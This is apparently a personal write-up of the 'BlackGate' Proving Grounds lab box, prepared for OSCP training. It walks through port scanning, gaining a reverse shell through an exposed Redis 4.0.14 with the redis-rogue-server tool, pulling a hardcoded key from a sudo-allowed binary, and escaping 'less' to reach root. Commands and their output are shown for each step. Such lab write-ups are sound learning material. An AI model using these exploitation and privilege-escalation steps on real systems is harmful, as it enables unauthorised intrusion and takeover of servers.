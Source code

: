 ```yaml
---
title: Blackgate 
date: 2022-10-19 12:00:00
categories: [OSCP,PG]
tags: [pg]
---
```


# BlackGate 

## Enumeration

### Autorecon

```bash
sudo env "PATH=$PATH" autorecon -v 192.168.160.176
```

```bash
[*] Scanning target 192.168.160.176
[*] [192.168.160.176/all-tcp-ports] Discovered open port tcp/22 on 192.168.160.176
[*] [192.168.160.176/all-tcp-ports] Discovered open port tcp/6379 on 192.168.160.176
[*] Identified service ssh on tcp/22 on 192.168.160.176
[*] Identified service redis on tcp/6379 on 192.168.160.176
[*] Finished scanning all targets in 3 minutes, 52 seconds!
```

### Redis
```bash
redis-cli -h 192.168.160.176
> info
redis_version:4.0.14
```

## Foothold

### Exploiting Redis

[Hacktricks - Redis RCE](https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis#redis-rce)

Exploit: [Redis Rogue Server](https://github.com/n0b0dyCN/redis-rogue-server)

```bash
./redis-rogue-server.py --rhost=192.168.160.176 --lhost=192.168.49.160 --lport=4242
```
```bash
[info] TARGET 192.168.160.176:6379
[info] SERVER 192.168.49.160:4242
[info] Setting master...
[info] Setting dbfilename...
[info] Loading module...
[info] Temerory cleaning up...
What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.49.160
Reverse server port: 4242
[info] Reverse shell payload sent.
[info] Check at 192.168.49.160:4242
[info] Unload module...
```

## Privelege Escalation

It seems we have the permissions to run **/usr/local/bin/redis-status** as root user

`sudo -l`
```bash
User prudence may run the following commands on blackgate:
    (root) NOPASSWD: /usr/local/bin/redis-status
```

Let's check what it does
`sudo /usr/local/bin/redis-status`
```bash
[*] Redis Uptime
Authorization Key: 123
Wrong Authorization Key!
Incident has been reported!
```

Running strings on the binary reveals the authorization key
`strings /usr/local/bin/redis-status`
```bash
...
[]A\A]A^A_
[*] Redis Uptime
Authorization Key: 
ClimbingParrotKickingDonkey321
...
```

Running the binary using `ClimbingParrotKickingDonkey321` as Auth Key will display the systemctl status output of "redis.service" in less

We just escape less as root using - [gtfobins - less](https://gtfobins.github.io/gtfobins/less/#sudo)